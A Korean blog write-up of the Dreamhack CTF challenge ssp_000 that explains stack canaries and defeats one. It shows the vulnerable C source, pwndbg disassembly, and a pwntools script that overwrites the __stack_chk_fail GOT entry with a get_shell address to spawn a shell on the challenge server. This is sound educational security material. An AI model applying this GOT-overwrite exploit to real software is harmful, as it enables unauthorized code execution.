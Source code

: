 ```yaml
---
published: true
image: /img
layout: post
title: \[Dreamhack\] 시스템 해킹 ssp\_000
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2022-12-21 15:30
---
```


이번 ssp_000문제는 카나리에 대한 문제다. 메모리 스텍의 오염을 인식하고 오염되었을 경우 바이너리를 강제 종료시키는 기능을 한다. 스텍 사이에 랜덤의 값을 넣고 이를 검사해 스텍이 오버플로우 되었는지 확인한다. 이렇게 메모리 커럽션을 어렵게 하는 기법을 Stack Smashing Protector(SSP)라고 한다.

우선 먼저 코드를 살펴보자.
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {
    long addr;
    long value;
    char buf[0x40] = {};

    initialize();


    read(0, buf, 0x80);

    printf("Addr : ");
    scanf("%ld", &addr);
    printf("Value : ");
    scanf("%ld", &value);

    *(long *)addr = value;

    return 0;
}
```

함수로 쉘이 함수로 있고 main함수는 간단한 버퍼 오버플로우를 일으킬 수 있다. 다만 실행시킨 바이너리의 카나리 값을 릭할 방법이 마땅치 않는다. 이 경우는 조금 생각을 해볼 필요가 있다. 만약 스텍을 오염시키면 __stack_chk_fail 함수가 실행되면서 종료가 될것이다.

다만 main함수를 보면 원하는 위치에 값을 바꿔쓸수 있는것을 볼수 있다. 이를 이용해 스텍이 오버플로우 되었을때 동작할 함수를 __stack_chk_fail가 아닌 get_shell함수로 바꿔주면 쉘을 얻을 수 있을 것이다.

우선 main함수의 어셈블리를 확인해보자
```c
   0x00000000004008fb <+0>:     push   rbp
   0x00000000004008fc <+1>:     mov    rbp,rsp
   0x00000000004008ff <+4>:     sub    rsp,0x70
   0x0000000000400903 <+8>:     mov    DWORD PTR [rbp-0x64],edi
   0x0000000000400906 <+11>:    mov    QWORD PTR [rbp-0x70],rsi
   0x000000000040090a <+15>:    mov    rax,QWORD PTR fs:0x28
   0x0000000000400913 <+24>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400917 <+28>:    xor    eax,eax
   0x0000000000400919 <+30>:    lea    rdx,[rbp-0x50]
   0x000000000040091d <+34>:    mov    eax,0x0
   0x0000000000400922 <+39>:    mov    ecx,0x8
   0x0000000000400927 <+44>:    mov    rdi,rdx
   0x000000000040092a <+47>:    rep stos QWORD PTR es:[rdi],rax
   0x000000000040092d <+50>:    mov    eax,0x0
   0x0000000000400932 <+55>:    call   0x40088e <initialize>
   0x0000000000400937 <+60>:    lea    rax,[rbp-0x50]
   0x000000000040093b <+64>:    mov    edx,0x80
   0x0000000000400940 <+69>:    mov    rsi,rax
   0x0000000000400943 <+72>:    mov    edi,0x0
   0x0000000000400948 <+77>:    call   0x400710 <read@plt>
   0x000000000040094d <+82>:    mov    edi,0x400a55
   0x0000000000400952 <+87>:    mov    eax,0x0
   0x0000000000400957 <+92>:    call   0x4006f0 <printf@plt>
   0x000000000040095c <+97>:    lea    rax,[rbp-0x60]
   0x0000000000400960 <+101>:   mov    rsi,rax
   0x0000000000400963 <+104>:   mov    edi,0x400a5d
   0x0000000000400968 <+109>:   mov    eax,0x0
   0x000000000040096d <+114>:   call   0x400750 <__isoc99_scanf@plt>
   0x0000000000400972 <+119>:   mov    edi,0x400a61
   0x0000000000400977 <+124>:   mov    eax,0x0
   0x000000000040097c <+129>:   call   0x4006f0 <printf@plt>
   0x0000000000400981 <+134>:   lea    rax,[rbp-0x58]
   0x0000000000400985 <+138>:   mov    rsi,rax
   0x0000000000400988 <+141>:   mov    edi,0x400a5d
   0x000000000040098d <+146>:   mov    eax,0x0
   0x0000000000400992 <+151>:   call   0x400750 <__isoc99_scanf@plt>
   0x0000000000400997 <+156>:   mov    rax,QWORD PTR [rbp-0x60]
   0x000000000040099b <+160>:   mov    rdx,rax
   0x000000000040099e <+163>:   mov    rax,QWORD PTR [rbp-0x58]
   0x00000000004009a2 <+167>:   mov    QWORD PTR [rdx],rax
   0x00000000004009a5 <+170>:   mov    eax,0x0
   0x00000000004009aa <+175>:   mov    rcx,QWORD PTR [rbp-0x8]
   0x00000000004009ae <+179>:   xor    rcx,QWORD PTR fs:0x28
   0x00000000004009b7 <+188>:   je     0x4009be <main+195>
   0x00000000004009b9 <+190>:   call   0x4006d0 <__stack_chk_fail@plt>
   0x00000000004009be <+195>:   leave  
   0x00000000004009bf <+196>:   ret
```

우리가 해당 바이너리를 익스하기 위해 필요한 것은 두가지다. get_shell 함수의 주소와 __stack_chk_fail 함수의 got 주소이다. 이것들 모두 쉽게 확인할 수 있다. __stack_chk_fail의 got는 해당 함수 plt의 주소를 disass 하면 확인할 수 있다.

```c
pwndbg> disass get_shell
Dump of assembler code for function get_shell:
   0x00000000004008ea <+0>:     push   rbp
   0x00000000004008eb <+1>:     mov    rbp,rsp
   0x00000000004008ee <+4>:     mov    edi,0x400a4d
   0x00000000004008f3 <+9>:     call   0x4006e0 <system@plt>
   0x00000000004008f8 <+14>:    nop
   0x00000000004008f9 <+15>:    pop    rbp
   0x00000000004008fa <+16>:    ret    
End of assembler dump.
```

```c
pwndbg> disass 0x4006d0
Dump of assembler code for function __stack_chk_fail@plt:
   0x00000000004006d0 <+0>:     jmp    QWORD PTR [rip+0x20094a]        # 0x601020 <__stack_chk_fail@got.plt>
   0x00000000004006d6 <+6>:     push   0x1
   0x00000000004006db <+11>:    jmp    0x4006b0
End of assembler dump.
```

get_shell 함수의 주소는 0x4008ea, __stack_chk_fail 함수의 got값은 0x601020로 확인할 수 있다. 이를 바탕으로 __stack_chk_fail함수 주소를 get_shell 함수로 바꾸기 위해 익스플로잇 코드를 작성해봤다. 해당 익스 코드는 다음과 같다.

```python
from pwn import *
context.update(arch='amd64', os='linux')

c = remote("host3.dreamhack.games", 22697);

stackChkFail = 0x601020
getShell = 0x4008ea

paylaod = "\x90"*0x50

c.send(paylaod)
c.sendlineafter(b"Addr : ", str(stackChkFail))
c.sendlineafter(b"Value : ", str(getShell))

c.interactive()
```

간단하게 카나리 부분을 덮어쓰기 하여 __stack_chk_fail를 인위적으로 일으키면 그전에 바꿔치기한 함수인 get_shell이 실행된다.